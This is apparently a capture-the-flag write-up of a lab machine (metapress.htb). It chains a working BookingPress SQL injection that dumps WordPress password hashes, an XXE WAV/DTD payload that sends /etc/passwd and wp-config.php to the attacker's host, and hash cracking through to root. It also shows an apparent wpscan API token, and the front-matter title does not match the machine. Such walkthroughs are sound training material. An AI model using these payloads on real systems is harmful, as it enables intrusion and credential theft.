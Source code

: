 ```yaml
---
layout: post
title: "Reddish"
date: 2025-04-20 
categories: CPTS Playlist
---
```

# Attack Path

First enumerate the open ports and services

```bash
rustscan -a 10.129.228.95

sudo nmap -sV -sC -p 21,22,80 10.129.228.95 -oA nmap/metatwo

result:
PORT   STATE SERVICE VERSION
21/tcp open  ftp?
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c4:b4:46:17:d2:10:2d:8f:ec:1d:c9:27:fe:cd:79:ee (RSA)
|   256 2a:ea:2f:cb:23:e8:c5:29:40:9c:ab:86:6d:cd:44:11 (ECDSA)
|_  256 fd:78:c0:b0:e2:20:16:fa:05:0d:eb:d8:3f:12:a4:ab (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

upon visiting the IP, we get a domain metapress.htb, let’s add that to /etc/hosts

Let’s try the ftp server.

```bash
ftp 10.129.228.95
```

Let’s enumerate subdirectories and subdomains

```bash
gobuster dir -u http://metapress.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

Also from the webapplyzer, we find out the website is using WordPress 5.6.2 and php 8.0.62

Let’s use wpscan to find out plugin and theme vulnerabilties

```bash
sudo wpscan --url http://metapress.htb -e ap --plugins-detection aggressive  --api-token 2xkAZXNy4fEMFKyADzmPF2VTMDYb9qV3aUtDrDK5Zzs

result:
bookingpress-appointment-booking
The version used is out of date and there are a lot of vulnerabilities
unauthenticated SQL injection -  https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357/

```

The POC found is

```bash
curl -i 'https://example.com/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
 
 
#We use this command but search up the wp_nonce used on the target website and change that:

curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=1c907fdc18&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
  
result:
[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}] 

```

Now we confirmed the vulnerability exist, we can send the request to burp and save it to a file for sqlmap to use. First turn burp intercept on, then execute:

```bash
curl -s -q 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=1c907fdc18&category_id=33&total_service=-7502' -x http://127.0.0.1:8080   #-x is proxy
```

If burp proxy did not catch that, just go on the proxy tab and go to http history and find the request. Once found save the file then use; We get a warning saying the parameter total_service had leftover manual injection which is a negative number, simply remove the negative sign and sqlmap will run smoothly. It seems the parameter is vulnerable to time-based injection:

```bash
sqlmap -r booking.req --batch --dbs

result:
available databases [2]:
[*] blog
[*] information_schema

sqlmap -r booking.req --batch -D blog --tables

```

However, sqlmap is taking a very long time because it is a time-based attack. Let’s carry on manually. We want to retrieve user credentials from wordpress, and the default table for that is wp_users. Let’s try and extract the username and password from that:

```bash
curl -s -q 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=1c907fdc18&category_id=33&total_service=-7502) UNION ALL SELECT user_login,user_pass,@@version_compile_os,1,2,3,4,5,6 from wp_users-- -' | jq .

result:
"bookingpress_service_id": "admin",                                                                                                                   
    "bookingpress_category_id": "$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.", 
    
    
    "bookingpress_service_id": "manager",                                                                                                                 
    "bookingpress_category_id": "$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70",  
```

We can use the curl options and pipe it to jq (as it comes back as json data) to view it better. Now we have the hashes for admin user and manager. Let’s use hashcat to crack the hash on native host; not vm. Put the has

```bash
hashcat.exe -m 400 wordlists\admin_hash.txt wordlists\rockyou.txt

hashcat.exe -m 400 wordlists\admin_hash.txt --show

#manager:partylikearockstar

#admin:
```

We know the admin login for wordpress is at /wp-admin, let’s navigate to the url and attempt to log in with manager credentials. Success. On the site, in the media tab, we see we can upload files. Let’s try and upload a webshell. We get an error. Looking for wordpress 5.6.2 exploit we find this blog: [https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/). Let’s use this explot. First create a wav file

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.132:8001/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

Next create the dtd file:

```bash
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">

<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.132:8001/?p=%file;'>" >
```

We got a base64 encoded message back. To decode, simply:

```bash
echo 'PASTE_HERE' | base64 -d

result:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:105:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:106:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:107:65534::/srv/ftp:/usr/sbin/nologin

```

Now, let’s try and view the wp-config.php file to see if any credentials are leaked here.

```bash
#CHANGE FROM :
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">

#TO:
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=../wp-config.php">
```

We find ftp user’s password. Let’s add the subdomain ftp.metapress.htb in /etc/hosts/ and try to log on to the ftp server

```bash
ftp ftp.metapress.htb
```

Looking through the FTP server. Found a file send_mail.php. Found another set of credentials and another subdomain mail.metapress.htb. In our initial enumeration, we did not find a mail server. Let’s try and login to ssh with the set of credentials. It worked. In jnelson’s directory we list all files with:

```bash
ls -al
find . -type f
```

We find hidden dir .passpie, and in there we find root.pass with a PGP message.  We also find a file .key containing the pgp key. Let’s use johntheripper to crack the password.

First save the pgp key and convert it to john format

```bash
gpg2john pgp_key

#save output to new file gpg_john
Passpie:$gpg$*17*54*3072*e975911867862609115f302a3d0196aec0c2ebf79a84c0303056df921c965e589f82d7dd71099ed9749408d5ad17a4421006d89b49c0*3*254*2*7*16*21d36a3443b38bad35df0f0e2c77f6b9*65011712*907cb55ccb37aaad:::Passpie (Auto-generated by Passpie) <passpie@local>::pgp_key
```

Now crack it with john

```bash
john.exe --format=gpg --wordlist=C:\Users\oahzl\Desktop\hashcat-6.2.6\wordlists\rockyou.txt C:\Users\oahzl\Desktop\shared\gpg_john

john.exe --format=gpg C:\Users\oahzl\Desktop\shared\gpg_john --show
```

Now we can use passpie to export the passwords

```bash
passpie export /home/jnelson/creds
cat creds
```

We have root password. Now just switch account

```bash
su root
```

- wordpress plugin vulnerability
- booking-press
- sql injection vulnerability
- wordpress 5.6.2 vulnerability
- xxe file disclosure
- john to crack gpg password